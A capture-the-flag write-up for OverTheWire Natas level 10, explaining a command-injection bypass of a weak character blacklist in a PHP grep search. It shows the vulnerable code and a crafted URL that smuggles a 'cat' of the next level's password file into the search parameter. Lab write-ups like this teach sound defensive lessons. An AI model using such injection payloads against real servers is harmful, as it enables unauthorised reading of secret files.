





# Natas Level 10 → Level 11

## Level Goal / Objective

Find the password for the next level.

🔗 https://overthewire.org/wargames/natas/natas10.html

## Tools You May Need

```text
Browser DevTools, URL manipulation
```

## Concept Focus

* Command injection bypass
* Weak input filtering
* Server-side command execution

## Approach

### 1. Access the Level

Navigate to:

```text
http://natas10.natas.labs.overthewire.org/
```

Authenticate using:

```text
Username: natas10
Password: <previous level password>
```

---

### 2. Initial Enumeration

Viewing the source code reveals similar logic to the previous level, but with a character filter in place:

```php
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
```

The application is still passing user input into a shell command, but it blocks `;`, `|`, and `&`.

---

### 3. Investigate Further

A simple injection attempt using `;` is rejected with the message:

```text
Input contains an illegal character!
```

This confirms the filter is active, but the command execution pattern is still vulnerable.

---

### 4. Extract the Password

Bypass the weak filtering by using shell expansion with `$` instead of blocked separator characters.

Modify the request to read the next password file:

```text
http://natas10.natas.labs.overthewire.org/?needle=%24%20cat%20/etc/natas_webpass/natas11&submit=Search
```

The server processes the injected input and returns the password for the next level in the response.

---

## Walkthrough (Screenshots)











---

## Password for Level 11

```text
UJdqkK1pTu6V... (redacted)
```

---

## Key Takeaways

* Blacklist-based filtering is fragile and often easy to bypass
* Blocking a few special characters does not eliminate command injection risk
* Secure input handling requires avoiding shell execution with raw user input
